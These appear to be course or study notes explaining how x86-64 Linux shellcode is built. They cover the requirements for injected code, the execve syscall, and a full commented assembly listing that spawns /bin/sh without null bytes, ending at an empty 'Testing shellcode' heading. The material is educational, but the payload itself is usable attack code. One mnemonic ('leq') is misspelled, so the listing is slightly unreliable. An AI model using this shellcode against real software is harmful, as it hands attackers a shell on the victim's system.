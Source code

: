 Injected code must:
- work regardless of where it's stored in memory
- not depend on external code like libraries
- not contain any NULL bytes (would terminate if stored as string)
- do something that gives attacker control of system

User code can't start program, kernel does that.
So tell kernel to do something using a syscall:
- special instruction to switch to kernel
- based on params stored in registers or memory, kernel performs required task
- kernel returns to our program

Starting a shell:
- need execve system call to start program (the shell)
- want to call `execve("/bin/sh", argv, NULL)`, where `char argv[] = { "/bin/sh", NULL}`
- how without shared libraries (libc)?
    - `%rax` register stores which system call to invoke, `0x3b` is `execve`
    - `syscall` switch to kernel, result is stored in `%rax` after return
    - `retq` return to caller
- so shellcode requirements are:
    - string "/bin/sh" in memory
    - array in memory, with pointer to "/bin/sh" and NULL pointer
    - pointer to string in `%rdi` (program name)
    - pointer to array in `%rsi` (`argv`)
    - NULL pointer in `%rdx` (`envp`)

Shellcode:

```asm
.data
.globl shellcode
shellcode:
    jmp code_start
string_addr:
    .ascii "/bin/shNAAAAAAAABBBBBBBB"
code_start:
    leq string_addr(%rip), %rdi     # load the string into %rdi ('path' in execve), offset is negative to avoid null bytes
    xorl %eax, %eax                 # clear %rax without using null bytes
    movb %al, 0x07(%rdi)            # replace "N" in string with null, use %rax to avoid explicit null
    movq %rdi, 0x08(%rdi)           # move program name to argv[0] in execve
    movq %rax, 0x10(%rdi)           # move null to argv[1] in execve, use %rax to avoid explicit null
    leaq 0x08(%rdi), %rsi           # load address of argv into %rsi
    movq %rax, %rdx                 # load null into %rdx ('envp' in execve), use %rax to avoid explicit null
    movb $0x3b, %al                 # load syscall number into %rax, 0x3b is execve, we already xored %rax so other bytes are zero
    syscall                         # perform call 0x3b(%rdi, %rsi, %rdx)
    .byte 0
```

Testing shellcode:
